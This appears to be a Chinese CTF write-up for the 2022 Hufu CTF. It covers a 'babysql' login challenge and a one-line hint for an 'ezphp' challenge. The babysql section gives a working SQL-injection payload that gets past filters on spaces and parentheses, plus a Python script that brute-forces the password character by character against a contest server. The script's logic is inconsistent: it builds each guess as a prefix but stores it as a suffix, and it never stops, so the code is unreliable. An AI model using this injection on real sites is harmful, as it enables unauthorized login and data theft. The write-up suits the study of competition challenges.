 ```yaml
---
title: 2022虎符ctf
date: 2022-4-15 23:10:33
tags: regexp注入
categories: 比赛题目复现
top_img: https://wallroom.io/img/2880x1620/bg-f2a86ba.jpg
cover: https://images7.alphacoders.com/737/thumbbig-737487.webp
---
```

# 虎符ctf

### babysql(*)

打开题目，一个登录框，应该是登陆成功就能获得flag

给了hint

![img](file:///C:\Users\Windflower\Documents\Tencent Files\969095266\Image\C2C\A81FF620F7D36538DE6AD5FEB47096D7.jpg)

发现过滤了括号，空格，空格用%0a来绕过，后面又放出了提示regexp正则注入

因为过滤了括号，这里使用`case...when...like...else`绕过

payload

```
username=1'||case'1'when`password`like'{}%'collate'utf8mb4_0900_as_cs'then'1'else~1+~1+'0'end='0&password=aaa
```

**POC**

```python
import requests
import string
anser = ''
url = "http://47.107.231.226:27395/login"
payload = "1'||case'1'when`password`like'{}%'collate'utf8mb4_0900_as_cs'then'1'else~1+~1+'0'end='0"
dic = string.ascii_letters + string.digits + '^$!_%@&'
while 222:
    for i in dic:
        payload2 = payload.format(i+anser)
        data = {
            'username': payload2,
            'password': 'aaa'
        }
        if '401' in requests.post(url, data=data).text:
            anser+=i
            print(payload2)
            print(anser)
```

### ezphp(*)

nginx缓存,post so文件